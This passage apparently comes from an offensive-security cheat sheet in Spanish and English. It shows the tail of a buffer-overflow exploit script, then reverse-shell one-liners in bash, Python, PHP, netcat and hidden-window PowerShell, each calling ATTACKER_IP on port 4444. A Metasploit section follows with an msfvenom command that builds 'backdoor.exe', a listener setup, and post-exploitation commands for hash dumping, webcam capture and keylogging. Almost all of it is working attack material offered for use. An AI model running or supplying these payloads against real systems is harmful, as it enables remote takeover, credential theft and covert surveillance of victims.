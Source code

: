```python
if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Uso: python3 basic_bof.py <target> <port>")
        sys.exit(1)
    
    target = sys.argv[1]
    port = int(sys.argv[2])
    exploit_bof(target, port)
```

### 2. Reverse Shell Generation

```bash
# Bash reverse shell
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1

# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP reverse shell
php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Netcat reverse shell
nc -e /bin/sh ATTACKER_IP 4444

# PowerShell reverse shell (Windows)
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "& {$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"
```

### 3. Meterpreter Avanzado

```bash
# Generar payloads personalizados
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe > backdoor.exe

# Configurar listener
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444
exploit

# Comandos útiles en Meterpreter
sysinfo
getuid
ps
migrate <PID>
hashdump
screenshot
webcam_snap
keylogger_start
```
